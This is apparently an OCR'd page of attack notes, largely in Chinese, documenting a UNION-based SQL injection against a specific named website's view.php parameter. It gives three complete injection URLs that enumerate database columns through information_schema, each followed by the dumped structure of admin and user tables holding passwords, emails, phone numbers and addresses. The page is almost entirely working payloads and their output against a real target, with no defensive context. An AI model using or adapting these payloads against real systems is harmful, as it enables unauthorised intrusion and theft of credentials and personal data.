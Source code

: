 duxcms.dc_admin的表结构:

	id
	gid
	user
	password
	nicename
	regtime
	logintime
	ip
	status
	loginnum
	keep

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71636D73%20and%20table_name=0x71636D735F61646D696E)%20--

qcms.qcms_admin的表结构:

	id
	admin_name
	admin_password

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71636D73%20and%20table_name=0x71636D735F7573657273)%20--

qcms.qcms_users的表结构:

	id
	username
	userpwd
	sex
	email
	qq
	tel
	truename
	address
	money

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x71637373%20and%20table_name=0x71636D735F75736572)%20--

qcss.qcms_user的表结钩:

	uid
	username
	password
	sex
	email
	qq
	tel
	address
	money
	add_time
	level
